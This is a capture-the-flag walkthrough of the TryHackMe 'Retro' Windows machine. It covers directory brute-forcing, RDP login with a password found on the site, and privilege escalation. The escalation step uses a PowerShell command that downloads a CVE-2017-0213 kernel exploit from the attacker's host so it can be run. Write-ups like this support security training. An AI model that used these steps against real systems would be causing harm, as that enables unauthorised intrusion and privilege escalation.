 ```yaml
---
date: 2025-01-25
categories: [CTF, THM]
title: "THM - Retro"
tags: ['gobuster', 'nmap', 'privilege escalation', 'rce', 'windows']

description: "Retro - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Retro

NMAP

![image1](../resources/73bc979fd79147bfb7af953ba4eb1a47.png)


![image2](../resources/1c08683911c64c4a8de7ab4488b9b326.png)

Directory bruteforce:
```bash
gobuster dir -u http://10.10.216.131 -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

![image3](../resources/cea9a1109b664188b46e5c75fac18af7.png)

<http://10.10.216.131/retro/>

![image4](../resources/ecb8a353b0464de992258ed05fcdc35a.png)

Looking at the page source - Found:


![image5](../resources/aa84b5b210c14fb08bc788310008a45a.png)


![image6](../resources/8696e847d65e4ddd801d2960a5832fcc.png)


![image7](../resources/ac7f5e9ba3c74e41913bd75892f4fda3.png)

<http://10.10.216.131/retro/index.php/author/wade/>

![image8](../resources/8c580b0666894cb0a628eb2fff9c6e60.png)

- Something that could be a password - **parzival**:

![image9](../resources/4ab9932580fc42f4b3e6d0418d90eda8.png)

- Port 3389 is open:
```bash
xfreerdp /v:10.10.216.131 /u:wade /p:"parzival" /dynamic-resolution /cert:ignore

```

![image10](../resources/6fa0765df1854a42934cf8573b6d301c.png)

We can read user.txt

Start enumeration:

```bash
query user
```

![image11](../resources/6a64b73af79f47eebd83fe8995593250.png)

```bash
whoami /all
```

![image12](../resources/432413d02bc74bcda5c1a249db2493a9.png)

- Open Chrome and check history


![image13](../resources/0f732021568b4242a94c0d3a0010085b.png)

[https://github.com/ycdxsb/WindowsPrivilegeEscalation](https://github.com/ycdxsb/WindowsPrivilegeEscalation#cve-2022-37969)


![image14](../resources/a2e47d8ae0b6463d96a007b78a545c0d.png)

**\*\* Check Recycle Bin for hhupd.exe file**


![image15](../resources/05db7a389b9e4be19737304ed40afcb1.png)

- **Run the program as administrator**


![image16](../resources/7359fc3702b44ad6a7ff7d4241d8ba1f.png)


![image17](../resources/374caaf6525f4934882a7e8347f517fc.png)


![image18](../resources/cf7819f17efd4086a98c2442ecd7d308.png)


![image19](../resources/adfa477c1b1c45379dfd2a4adce57c42.png)


![image20](../resources/8a45a11c811e4e8c952fc72f54464a45.png)

- Kept getting to this point but no programs show up

- Found a hint:
Make sure to open Internet Explorer and Chrome BEFORE running the program

But still doesn't work

- Wes-NG suggested CVE-2017-0213
<https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213>

Download and extract the zip file and transfer to the windows machine:

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8081/CVE-2017-0213_x64.exe', 'C:\Users\wade\CVE-2017-0213_x64.exe')

```
And just run it


![image21](../resources/8c1c874c7d304ce998d28d29ffefe7bb.png)

Read root.txt